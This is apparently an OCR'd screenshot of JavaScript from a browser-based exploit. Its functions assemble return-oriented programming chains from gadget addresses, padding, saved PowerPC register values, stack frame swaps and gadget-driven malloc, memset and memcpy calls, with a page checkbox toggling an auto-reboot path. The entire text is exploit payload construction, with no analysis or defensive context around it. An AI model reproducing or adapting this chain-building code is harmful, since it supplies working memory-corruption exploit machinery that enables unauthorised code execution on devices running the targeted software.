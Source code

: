 function optional_reboot(newframe,addr1,addr2,addr3,addr4,addr5)
{
	var auto=document.getElementById('auto_reboot');
	if(auto){if(auto.checked===true)return validate_word_from_ptr(addr1+0x4,newframe+0x10,gadget_mod8_addr)
	+validate_word_from_ptr(addr2+0x4,newframe+0x10,gadget_mod8_addr)
	+validate_word_from_ptr(addr3+0x4,newframe+0x10,gadget_mod8_addr)
	+validate_word_from_ptr(addr4+0x4,newframe+0x10,gadget_mod8_addr)
	+validate_word_from_ptr(addr5+0x4,newframe+0x10,gadget_mod8_addr)
	+stack_frame_swap(newframe);}
	return '';
}
function validate_word_from_ptr(w_ptr,opt_store,val,r29out,r30out,r31out)
{
	if(r29out===null){r29out=gtemp_addr;}
	if(r30out===null){r30out=gtemp_addr;}
	if(r31out===null){r31out=gtemp_addr;}
	return load_r3_word_from_ptr_32(w_ptr,gtemp_addr,gtemp_addr,gtemp_addr,gtemp_addr,opt_store,gtemp_addr)
	+hexdw2bin(gadget_mod12_addr)+fill_by_16bytes(0x70,dbyte00)+fill_by_8bytes(0x8,dbyte00)+hexdw2bin(val)+fill_by_16bytes(0x10,dbyte00)+hexdw2bin(r29out)+hexdw2bin(r30out)+hexdw2bin(r31out)+hexdw2bin(val)+fill_by_8bytes(0x8,dbyte41);

}
function padding()
{
	var auto=document.getElementById('auto_reboot');
	if(auto){if(auto.checked===false)return fill_by_16bytes(0x800,dbyte00);}
	return '';
	
}
function getlastUserId(storage_offset,act,uid,full_path,jmp,jmp2,r31out)
{
	if(r31out===null){r31out=gtemp_addr;}
	return callsub(gadget14_addr,0,0,0,0,0,0,0,0,0,0x90,toc_entry4_addr,jmp-0x8)
	+hexdw2bin(gadget_mod11_addr)+fill_by_16bytes(0x60,dbyte41)+fill_by_8bytes(0x8,dbyte41)+hexw2bin(uid)+fill_by_4bytes(0x4,dbyte00)+fill_by_16bytes(0x10,dbyte00)+hexw2bin(storage_offset+0x4)+fill_by_4bytes(0x4,dbyte00)+fill_by_8bytes(0x18,dbyte00)+hexdw2bin(storage_offset+0x4)+fill_by_16bytes(0x10,dbyte00)
	+hexdw2bin(gadget15_addr)+fill_by_16bytes(0x70,dbyte00)+hexdw2bin(r31out)+fill_by_16bytes(0x10,dbyte41)
	+hexdw2bin(gadget_mod2_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(gtemp_addr)+fill_by_16bytes(0x10,dbyte41)
	+hexdw2bin(gadget_mod1_addr+0x20)+fill_by_16bytes(0x70,dbyte00)+fill_by_4bytes(0xC,dbyte41)+hexw2bin(jmp2)+fill_by_16bytes(0x20,dbyte41)+hexdw2bin(storage_offset-0x8)+fill_by_16bytes(0x10,dbyte00)+hexdw2bin(gadget9_addr)+fill_by_16bytes(0x60,dbyte00)+hexdw2bin(full_path)+fill_by_16bytes(0x10,dbyte00)
	+hexdw2bin(gadget_mod2_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(gtemp_addr)+fill_by_16bytes(0x10,dbyte41)
	+hexdw2bin(gadget11_addr)+fill_by_16bytes(0x90,dbyte41)+hexdw2bin(r31out)+hexdw2bin(sp_exit)+fill_by_8bytes(0x8,dbyte41);
}
function malloc_(m_ptr_holder,size)
{
	return callsub(gadget6_addr,toc_entry4_addr,size,0,0,0,0,0,0,0,0x70)+store_r3_word(m_ptr_holder);
}
function memset_r3_p2p(m_ptr_holder,len,val)
{
	return callsub_r3_p2p(gadget7_addr,m_ptr_holder,len,val,0,0,0,0,0,0,0x70);
}
function memcpy_r3_p2p(m_ptr_dest,src,len)
{
	return callsub_r3_p2p(gadget8_addr,m_ptr_dest,src,len,0,0,0,0,0,0,0x70);
}